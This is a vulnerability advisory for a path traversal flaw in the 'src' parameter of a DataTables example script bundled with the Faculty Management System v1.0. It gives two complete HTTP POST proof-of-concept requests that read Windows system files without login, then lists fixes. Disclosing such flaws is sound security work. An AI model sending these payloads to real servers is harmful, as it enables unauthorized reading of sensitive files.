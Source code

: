 #  Faculty Management System examples.php  v.1.0 Path Traversal

# NAME OF AFFECTED PRODUCT(S)

- Faculty Management System

## Vendor Homepage

- [Faculty Management System | code-projects](https://code-projects.org/faculty-management-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- xiaoliyu-1
## VERSION(S)

- V1.0

## Software Link

- - [Faculty Management System | code-projects](https://code-projects.org/faculty-management-system-in-php-with-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- Path Traversal

## Root Cause

- A Path Traversal vulnerability was found in the 'examples.php' file of the 'Faculty Management System' project. The reason for this issue is that attackers input malicious path from the parameter "src" and use it directly in file read without the  enough validation. 

## Impact

- Attackers can exploit this Path Traversal vulnerability to achieve unauthorized system file access, sensitive data leakage, posing a serious threat to Operation System security and business continuity

# DESCRIPTION

- During the security review of "Faculty Management System", discovered a critical Unauthorized Path Traversal vulnerability in the "examples.php" file. This vulnerability stems from insufficient user input validation of the 'src' parameter, allowing attackers to inject malicious path file. Therefore, attackers can gain unauthorized access to Operation System File system, access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- Path Traversal

## Vulnerability location:

- "src" parameter
![image-20250918145920.png](./assets/image-20250918145920.png)

## URL:
```
/gan/bootstrap/plugins/DataTables-1.10.5/examples/resources/examples.php
```
## Payload:

payload1
```
POST /gan/bootstrap/plugins/DataTables-1.10.5/examples/resources/examples.php HTTP/1.1
Host: 192.168.43.129
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

src=scripts/a.php/../../../../../../../../../../../../../../../../windows/WindowsUpdate.log
```
payload2
```
POST /gan/bootstrap/plugins/DataTables-1.10.5/examples/resources/examples.php HTTP/1.1
Host: 192.168.43.129
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

src=scripts/a.php/../../../../../../../../../../../../../../../../windows/win.ini
```
# Attack results

![image-20250918143306.png](./assets/image-20250918143306.png)
![image-20250918143326.png](./assets/image-20250918143326.png)
# Suggested repair



 1. Input validation and whitelist: Strictly validate user input and only allow the expected character set (whitelist). Firmly reject any content that contains... /, '.. The input of such sequences.

2. path normalization and verification: Use secure apis (such as realpath(), path.normalize()) to normalize the final path and verify whether the normalized path falls within the expected benchmark directory.

3. The principle of least privilege: Configure the minimum necessary file system access permissions for application running accounts to prevent them from having the ability to read from or write to system critical directories.